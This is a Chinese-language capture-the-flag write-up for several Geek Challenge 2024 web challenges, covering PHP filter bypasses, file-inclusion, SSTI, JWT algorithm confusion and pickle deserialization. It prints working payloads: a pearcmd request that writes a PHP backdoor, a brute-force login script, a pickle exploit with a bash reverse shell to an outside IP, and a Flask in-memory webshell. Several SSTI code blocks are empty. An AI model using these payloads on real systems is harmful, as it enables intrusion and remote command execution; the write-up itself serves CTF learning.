[极客大挑战 2024] 部分赛题 wp
===

## [WEB] rce_me 

### 题解

开门源码:

```php
 <?php
header("Content-type:text/html;charset=utf-8");
highlight_file(__FILE__);
error_reporting(0);

# Can you RCE me?


if (!is_array($_POST["start"])) {
    if (!preg_match("/start.*now/is", $_POST["start"])) {
        if (strpos($_POST["start"], "start now") === false) {
            die("Well, you haven't started.<br>");
        }
    }
}

echo "Welcome to GeekChallenge2024!<br>";

if (
    sha1((string) $_POST["__2024.geekchallenge.ctf"]) == md5("Geekchallenge2024_bmKtL") &&
    (string) $_POST["__2024.geekchallenge.ctf"] != "Geekchallenge2024_bmKtL" &&
    is_numeric(intval($_POST["__2024.geekchallenge.ctf"]))
) {
    echo "You took the first step!<br>";

    foreach ($_GET as $key => $value) {
        $$key = $value;
    }

    if (intval($year) < 2024 && intval($year + 1) > 2025) {
        echo "Well, I know the year is 2024<br>";

        if (preg_match("/.+?rce/ism", $purpose)) {
            die("nonono");
        }

        if (stripos($purpose, "rce") === false) {
            die("nonononono");
        }
        echo "Get the flag now!<br>";
        eval($GLOBALS['code']);
        
        

        
    } else {
        echo "It is not enough to stop you!<br>";
    }
} else {
    echo "It is so easy, do you know sha1 and md5?<br>";
}
?>
```

1. 绕过 `.*` 结构的正则匹配:

    经典的绕过, 在之前的 RCE 题目里也有一刀, `.*` 默认不处理跨行结果, 用 `%0a` (换行符) 绕过:

    ```
    (POST)
    start=start%0anow
    ```

    

2. 正确传入 `__2024.geekchallenge.ctf` 这个变量:

    此处的坑是 php 对输入变量名中特殊字符的处理: `.`, `[`, ` ` 都会转义为 `_`, 但是 `[` 之后的字符不再被转义而是原样读取, 因此应该 POST: `_[2024.geekchallenge.ctf`;

    之后是哈希弱比较, 右边这一坨的 `md5` 是 `0e\d+` 的格式, 也就是只要让左边的 `sha1` 也为这个格式, 就会触发科学计数法的转化读取然后相等, 用 **`aaK1STfY`** 这个魔法字符串就可以了;

    

3. 之后的代码逻辑是把 GET 存入的变量从 `$_GET` 超全局数组里取出来; 下一步也是利用特性, GET 传 year = `2023e2` 即可; 之后个正则不放前缀就行;
   
    


最终: 



## [WEB] ez_include

### 题解

开门源码:

```php

<?php
highlight_file(__FILE__);
require_once 'starven_secret.php';
if(isset($_GET['file'])) {
    if(preg_match('/starven_secret.php/i', $_GET['file'])) {
        require_once $_GET['file'];
    }else{
        echo "还想非预期?";
    }
}
```

`require_once` 在多重软连接下会判断失效, 重复包含;

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/starven_secret.php
```





第二层:

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if (isset($_GET ["syc"])){
    $file = $_GET ["syc"];
    $hint = "register_argc_argv = On";
    if (preg_match("/config|create|filter|download|phar|log|sess|-c|-d|%|data/i", $file)) {
        die("hint都给的这么明显了还不会做?");
    }
    if(substr($_SERVER['REQUEST_URI'], -4) === '.php'){
        include $file;
    }
} 
```

> 漏洞原理: [PHP 本地文件包含综述](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

利用:

```
(GET)
/levelllll2.php?+config-create+/&syc=/usr/local/lib/php/pearcmd.php&/<?=eval($_GET[1]);?>+/tmp/1.php
```

这样就往 `/tmp` 里写了个后门, 之后用 `include` 来执行;

## [WEB] Can_you_Pass_Me

### 题解

开门是个 SSTI 注入:

```python

```

有回显 *"welcome to SycLover 2024 1"*。

测试发现, `[]`,`self` 被过滤;

目标 payload:

```python

```

思路 - 换用双引号, 用 `|attr()` + 拼接字符串来绕过关键字过滤:

```python

```


成功, 回显了 root;

调整一下 payload:

```python

```



拿到假 flag;

继续调整 payload, 定位到 `/proc/1/environ`, 读取到真 flag:

```python

```



## [WEB] SecretInDrivingSchool

### 题解

打开网站源代码发现有泄露:



登录界面又发现信息泄露, 且账密报错泄露了账号信息, 即存在 `admin/xxx@chengxin` 的登录组合;



抓包穷举:

```python
import requests
import itertools

sess = requests.Session()

url = "http://80-ffbe87f2-6fb6-4772-83fa-d38e9e864b33.challenge.ctfplus.cn/L000G1n.php"

payload = ""

data = {
    "username": "admin",
    "password": f"{payload}@chengxing",
    "submit": requests.utils.unquote("%E7%99%BB%E5%BD%95")
}

proxies = {
    "http": "127.0.0.1:8080",
    "https": "127.0.0.1:8080"
}

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"

for payload in itertools.product(charset, repeat=3):
    payload = ''.join(payload)
    data["password"] = f"{payload}@chengxing"

    print(f"[+] Trying payload: {payload}")

    response = sess.post(url, data=data, proxies=proxies)
    if "错误" not in response.text:
        print(f"[*] Payload succeeded: {payload}")
        break
```

找到密码: `SYC@chengxing`; 

之后再后台找到一个编辑广告的界面, 注意这里是一个 php 文件, 尝试直接修改写马;

发现 `eval` 等函数被 WAF 掉, 多试几次, 发现反引号能用, 那也没区别;

```php
echo `cat /flag`;
```




## [WEB] jwt_pickle

### 附件

app.py:

```python
import base64
import hashlib
import random
import string
from flask import Flask,request,render_template,redirect
import jwt
import pickle

app = Flask(__name__,static_folder="static",template_folder="templates")

privateKey=open("./private.pem","rb").read()
publicKey=open("./public.pem","rb").read()
characters = string.ascii_letters + string.digits + string.punctuation
adminPassword = ''.join(random.choice(characters) for i in range(18))
user_list={"admin":adminPassword}

@app.route("/register",methods=["GET","POST"])
def register():
    if request.method=="GET":
        return render_template("register.html")
    elif request.method=="POST":
        username=request.form.get("username")
        password=request.form.get("password")
        if (username==None)|(password==None)|(username in user_list):
            return "error"

        user_list[username]=password
        return "OK"


@app.route("/login",methods=["GET","POST"])
def login():
    if request.method=="GET":
        return render_template("login.html")
    elif request.method=="POST":
        username = request.form.get("username")
        password = request.form.get("password")
        if (username == None) | (password == None):
            return "error"

        if username not in user_list:
            return "please register first"

        if user_list[username] !=password:
            return "your password is not right"

        ss={"username":username,"password":hashlib.md5(password.encode()).hexdigest(),"is_admin":False}
        if username=="admin":
            ss["is_admin"]=True
            ss.update(introduction=base64.b64encode(pickle.dumps("1ou_Kn0w_80w_to_b3c0m3_4dm1n?")).decode())

        token=jwt.encode(ss,privateKey,algorithm='RS256')

        return "OK",200,{"Set-Cookie":"Token="+token.decode()}


@app.route("/admin",methods=["GET"])
def admin():
    token=request.headers.get("Cookie")[6:]
    print(token)
    if token ==None:
        redirect("login")
    try:
        real= jwt.decode(token, publicKey, algorithms=['HS256', 'RS256'])
    except Exception as e:
        print(e)
        return "error"
    username = real["username"]
    password = real["password"]
    is_admin = real["is_admin"]
    if password != hashlib.md5(user_list[username].encode()).hexdigest():
        return "Hacker!"

    if is_admin:
        serial_S = base64.b64decode(real["introduction"])
        introduction=pickle.loads(serial_S)
        return f"Welcome!!!,{username},introduction: {introduction}"
    else:
        return f"{username},you don't have enough permission in here"

@app.route("/",methods=["GET"])
def jump():
    return redirect("login")

if __name__ == "__main__":
    app.run(debug=False,host="0.0.0.0",port=80)
```

### JWT 伪造

首先根据源码注册一个账户, 然后尝试访问 `/admin`, 解码一下 jwt:



现在的目标是修改 JWT, 改成源码中能通过的格式;

#### 算法混淆缺陷

本身 `RS256` 是使用 RSA 加密算法的, 要伪造这种 JWT 必须要获取公钥; 注意代码里, 同时指定了 `RS256` 和 `HS256` 两种算法, 并且:

```python
jwt.decode(token, publicKey, algorithms=['HS256', 'RS256'])
```

也就是**同一个字符串**在不同算法下被当作不同类型的 key 使用, 这正是算法混淆的经典缺陷: (**HS256** → **RS256** 攻击)

## [WEB] ez_ python

### 题解

经过一番尝试, 访问 `/starven_s3cret`, 拿到 `app.py` 源码, 关键部分:

```python
heal_state = base64.b64decode(statement)
print(heal_state)
for i in black.blacklist:
    if i in heal_state:
        return render_template('waf.html')
pickle.loads(heal_state)
res = make_response(f"Congratulations! You accomplished the first step of healing Starven's broken heart!")
flag = os.getenv("GEEK_FLAG") or os.system("cat /flag")
os.system("echo " + flag + " > /flag")
return res
```

看起来是一个 pickle 反序列化漏洞, 中间有一些 waf 过滤; 执行完了反序列化的内容后会将 flag 写到 `/flag` 里, 也就是无回显, 还要想办法把 flag 给发出来:

首先肯定想到的是反弹 shell:

```python
import pickle
import os
import base64
import subprocess


class exp(object):
    def __reduce__(self):
        # 返回一个可调用对象和参数元组，反序列化 (pickle.loads) 时会调用 os.system(...)
        return (subprocess.run, (["bash", "-i", ">&", "/dev/tcp/47.108.39.75/4444", "0>&1"],), {"shell": True})


if __name__ == "__main__":
    a = exp()
    malicious_data = base64.b64encode(
        pickle.dumps(a, protocol=0)).decode('utf-8')
    print(f"Malicious serialized data: {malicious_data}")
```

被 WAF 了;



那么想到之前的界面可以下载 app.py, 能不能把内容给附加到 `app.py` 之后呢?

```python
return (subprocess.run, (["cat", "/fl*", ">>", "/app/app.py"],), {"shell": True})
```

还是被 WAF; 看了下 wp, 解法是内存马:

```python
return(exec,("global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__('os').popen(request.args.get('starven')).read()",))
```

这个效果和 webshell 是类似的, 把指令点转移到了 `starven` 这个参:





访问一个不存在的路由触发 404 状态码再传入刚刚的参数, 即可 rce 爆出 flag;

### 内存马原理简述 

  内存马不是把恶意文件直接写入磁盘, 而是**修改程序运行时的状态**, (内存数据结构, 回调表, 路由表, 全局变量等), 让该应用或者进程 *活着* 的时候包含一个后门接口。重启/替换进程就可以暂时清楚它, 除非进行了持久化;

  植入后门通常是把一个函数/闭包/lambda 挂到某个框架的回调表, 触发时后门就会被调用;

  对这里而言, 这个 payload 修改了 404 状态码的错误处理函数, 这个新的错误处理函数会在 404 时读取用户提交的 `starven` 输入并交给 `os.popen('cmd').read()`;

  攻击链: 

- 反序列化执行内存马;
- 植入后门, 修改 404 错误处理函数;
- 附带 payload 访问一个不存在的页面触发 404 错误函数;
- 执行远程命令
